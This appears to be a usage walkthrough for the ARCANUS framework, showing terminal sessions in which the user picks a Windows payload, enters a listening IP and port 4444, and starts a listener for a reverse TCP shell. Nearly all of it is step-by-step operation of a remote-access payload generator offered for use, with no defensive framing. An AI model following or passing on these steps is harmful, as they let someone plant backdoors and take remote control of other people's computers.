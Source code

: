                          /\             /\
                        |`\\_,--="=--,_//`|
                        \ ."  :'. .':  ". /
                       ==)  _ :  '  : _  (==
                         |>/O\   _   /O\<|
                         | \-"~` _ `~"-/ |
                        >|`===. \_/ .===`|<
                  .-"-.   \==='  |  '===/   .-"-.
.----------------{'. '`}---\,  .-'-.  ,/---{.'. '}----------------.
 )               `"---"`     `~-===-~`     `"---"`               (
(            ____ ___ _               _   ____  _  ___            )
 )          / ___|_ _| |__   __ _  __| | |___ \/ |( _ )          (
(          | |  _ | || '_ \ / _` |/ _` |   __) | |/ _ \           )
 )         | |_| || || | | | (_| | (_| |  / __/| | (_) |         (
(           \____|___|_| |_|\__,_|\__,_| |_____|_|\___/           )
 )                                                               (
'-----------------------------------------------------------------'
root@Gihad:~/Desktop/ARCANUS# ./ARCANUS

           _______  _______  _______  _______  _                 _______ 
          (  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

 [1] START LISTENING

 [2] GENERATE WINDOWS PAYLOAD                   (4.5 Mb)

 [3] GENERATE LINUX PAYLOAD                     (3.6 Mb)

 [4] GENERATE STAGER WINDOWS PAYLOAD            (2.0 Mb)

 [5] GENERATE STAGER LINUX PAYLOAD              (2.0 Mb)

 [6] UPDATE


>>
==========================================================================================
After opening the tool Choose payload what you want (For example)


          (  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

 [1] START LISTENING

 [2] GENERATE WINDOWS PAYLOAD                   (4.5 Mb)

 [3] GENERATE LINUX PAYLOAD                     (3.6 Mb)

 [4] GENERATE STAGER WINDOWS PAYLOAD            (2.0 Mb)

 [5] GENERATE STAGER LINUX PAYLOAD              (2.0 Mb)

 [6] UPDATE


>>2
================================================================================================================
          (  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

Enter Listening Ip: here Enter ip External or internal this is your opinion you  Not me
=================================================================================================== 
(  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

Enter Listening Ip: 192.168.15.132

Enter Listening Port:  here Enter port 4444 or 443 this is your opinion you  Not me
=========================================================================================================================
(  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

[+] Payload generated at /root/Desktop/ARCANUS

[*] Port:4444

[*] Listening For Reverse TCP Shell...
=============================================================

And then Go Folder tool There it falls payload Your 
 /root/Desktop/ARCANUS <<<<< 




